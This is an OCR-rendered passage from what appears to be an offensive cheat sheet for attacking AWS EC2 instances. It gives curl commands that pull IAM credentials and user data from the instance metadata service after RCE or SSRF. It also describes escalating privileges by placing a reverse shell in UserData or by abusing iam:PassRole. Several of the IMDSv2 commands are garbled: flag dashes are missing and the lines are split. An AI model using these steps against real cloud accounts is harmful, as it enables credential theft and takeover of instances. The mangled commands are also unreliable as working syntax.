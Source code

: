 ### Listing roles of an instance

```
aws ec2 describe-iam-instance-profile-associations
```

## Exploitation
* Initial access can happen by RCE or SSRF
* Metadata can be used to exfiltrate information from the instance

### Remote code execution

#### AWS Metadata
If we have remote code execution or SSRF, we can grab metadata information

```
curl http://169.254.169.254/latest/meta-data
```

##### Grabbing the keys to access the instance

```
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

##### Grabbing the keys in metadata version 2 

```bash
TOKEN=`curl
X PUT "http://169.254.169.254/latest/ api /token" H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
&& curl H "X-aws-ec2-metadata-token: $TOKEN" v http://169.254.169.254/latest/meta-data/
```

#### AWS Userdata

Version 1

```
curl http://169.254.169.254/latest/user-data/
```

Version 2

```bash
TOKEN=`curl
X PUT "http://169.254.169.254/latest/ api /token" H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
&& curl H "X-aws-ec2-metadata-token: $TOKEN" v http://169.254.169.254/latest/user-data/
```

### Privilege Escalation
* One approach to get a shell in an instance is to put a reverse shell in UserData attribute, when the  instance is launched, we will have the connection.
* Another approach happens when we have the iam:PassRole and iam:AmazonEC2FullAccess permissions, we can add an administrator role to the compromised EC2 instance and access aws services.

